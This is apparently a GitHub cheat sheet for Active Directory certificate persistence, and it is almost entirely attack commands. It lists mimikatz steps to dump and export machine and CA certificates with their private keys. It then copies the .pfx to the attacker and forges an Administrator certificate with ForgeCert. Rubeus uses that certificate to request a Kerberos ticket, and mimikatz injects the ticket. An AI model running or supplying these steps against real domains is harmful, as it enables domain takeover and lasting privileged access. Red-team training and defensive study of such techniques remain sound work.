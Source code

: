 # AD CERTIFICATES PERSISTENCE

### Tools: mimikatz, SharpDPAPI

## Extract Private Key

#### 1) 

    mimikatz

#### 2) 

    crypto::certificates /systemstore:LOCAL_MACHINE

#### 3) 

    privilege::debug

#### 4) 

    crypto::capi 

#### 5) 

    crypto::cng

#### 6) 

    crypto::certificates /systemstore:LOCAL_MACHINE /export

## Exported Certificates format: PFX and DER

#### 7) Download/copy .pfx file to attacker, then SCP to low-privileged user's home directory (Default key pass: mimikatz)

## Generate our own certificate

### Tools: Forgecert, Rubeus, Mimikatz

#### 8) 

    Forgecert.exe --CaCertPath /path/to/.pfx --CaCertPassword mimikatz --Subject CN=(WHATEVER) --SubjectAltName Administrator@DOMAIN --NewCertPath /path/to/forged.pfx --NewCertPassword PASSWORD

#### 9) 

    Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:/path/to/forged.pfx /password:CERT_PASS /outfile:TICKET.KIRBI /domain:DOMAIN /dc:DC_IP

#### 10) 

    mimikatz

#### 11) 

    kerberos::ptt TICKET.KIRBI

#### 12) 

    exit
